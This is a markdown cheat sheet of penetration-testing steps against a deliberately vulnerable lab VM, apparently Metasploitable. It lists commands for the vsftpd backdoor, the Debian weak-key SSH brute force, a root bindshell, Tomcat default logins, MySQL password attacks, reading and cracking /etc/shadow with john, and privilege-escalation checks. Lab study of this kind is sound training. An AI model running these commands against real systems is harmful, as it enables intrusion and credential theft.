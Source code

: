 # Hacking with Kali Linux

## FTP hacking
- Launch `msfconsole`
- Search `vsftpd 2.3.4`
- Get root shell
- `wget -m --ftp-user=msfadmin --ftp-password=msfadmin ftp://192.168.100.3/vulnerable`
- `wget -m --ftp-user=msfadmin --ftp-password=msfadmin ftp://192.168.100.3:2121/vulnerable`

## SSH hacking
- Vulnerability: Predictable PRNG Brute Force SSH  
- Exploit: `https://www.exploit-db.com/download/5720`  
- Keys: `https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/5622.tar.bz2`
- `python2 5720.py`
- `./exploit.py <dir> <host> <user> [[port] [threads]]`
- `python2 5720 keys 192.168.100.3 root 22 10`
- Key found example: `57c3115d77c56390332dc5c49978627a-5429`
- Execute:
  - `ssh -l root -p 22 -i keys/57c3115d77c56390332dc5c49978627a-5429 192.168.100.3`
- (Requires `~/.ssh/config` for this workflow)

## Other legacy/weak services
- `telnet 192.168.100.3 23` (Telnet - Metasploitable shell)
- `rlogin -l root 192.168.100.3` (rlogind - OpenBSD/Solaris)
- `nc 192.168.100.3 1524` (bindshell Metasploitable root shell)

## Web service hacking
- `nikto -host 192.168.100.3 -p 8180` (8180 - non-standard port)
- Example vuln: `/manager/html: Default account found for 'Tomcat Manager Application' (tomcat:tomcat)`
- Browser: `http://192.168.100.3:8180` → Tomcat Manager → `tomcat:tomcat`
- `http://logout:logout@192.168.100.3:8180/manager/html`
- Launch `msfconsole` and search for tomcat exploit

## Database hacking & password attacks
- `nmap -p 3306 -sV 192.168.100.3` (MySQL)
- `hydra -l root -P wordlist.txt mysql://192.168.100.3`
- `mysql -u root -p -h 192.168.100.3 --skip-ssl`
- SQL: `show databases; use dvwa; show tables; select * from users;`
- Local files:
  - `cat /etc/passwd` (passwd-file)
  - `cat /etc/shadow` (shadow-file)
- Create crackable file:
  - `unshadow passwd-file shadow-file > crack-me`
  - `john crack-me`
  - or: `unshadow passwd-file shadow-file > passwords`
  - `john --wordlist=/usr/share/wordlists/rockyou.txt passwords`
  - `john --show passwords`

## Sniffing passwords
- Look for HTTP Authorization in Wireshark:
  - `Authorization: Basic dG9tY2F0OnRvbWNhdA==`
- Base64 decode: `dG9tY2F0OnRvbWNhdA==` → `tomcat:tomcat`

## Privilege Escalation
- Download unix privesc check:
  - `wget https://pentestmonkey.net/tools/unix-privesc-check/unix-privesc-check-1.4.tar.gz`
- Transfer to target:
  - `scp unix-privesc-check-1.4.tar.gz msfadmin@192.168.100.3:/tmp/`
  - or `scp -O -r ~/Downloads/unix-privesc-check-1.4 msfadmin@192.168.100.3:/tmp`
- On target:
  - `tar -zxvf unix-privesc-check-1.4.tar.gz`
  - `cd unix-privesc-check-1.4`
  - `./unix-privesc-check standard`
